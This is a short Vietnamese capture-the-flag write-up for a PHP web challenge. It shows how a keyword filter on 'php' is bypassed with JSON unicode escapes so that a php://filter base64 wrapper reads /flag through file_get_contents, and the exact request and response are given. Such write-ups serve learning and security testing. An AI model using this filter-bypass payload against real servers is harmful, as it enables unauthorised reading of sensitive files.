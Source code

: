 # Cách giải

- Server sẽ lấy input từ `POST` request gửi đến, và gọi hàm `file_get_contents`. 
- Bài này mới vào thì có thể đến LFI với filter base64 nhưng nó chặn ngay chữ php, data, file nên mình không thể chuyển qua base64 được
Ta thử đọc file `/flag`

```python

Request: {"page":"/flag"}
Response: {"content":"Invalid content"}

```

- Vì content của file `/flag` có chứa `EHC` nên cần phải encode content của file để có thể in ra thành công.
Trong quá trình reserach thì mình có tìm ra PHP Wrapper có thể encode nội dung của file như sau

`php://filter/convert.base64-encode/resource=/flag`

- Tuy nhiên `php` đã bị filter. JSON có escape character đặc biệt là `\uXXXX` là unicode của UTF-16.
Do PHP không có nên khi kiểm tra `check_valid($body)` sẽ không nhận ra điều gì bất thường. Qua hàm `json_decode()` nó sẽ được decode và đọc.

```python
Request: {"page":"\u0070\u0068\u0070://filter/convert.base64-encode/resource=/flag"}
Response: {"content":"RUhDe3czbGMwbTNfdzNiX3c0cnJqMHJzfQo=="}s
```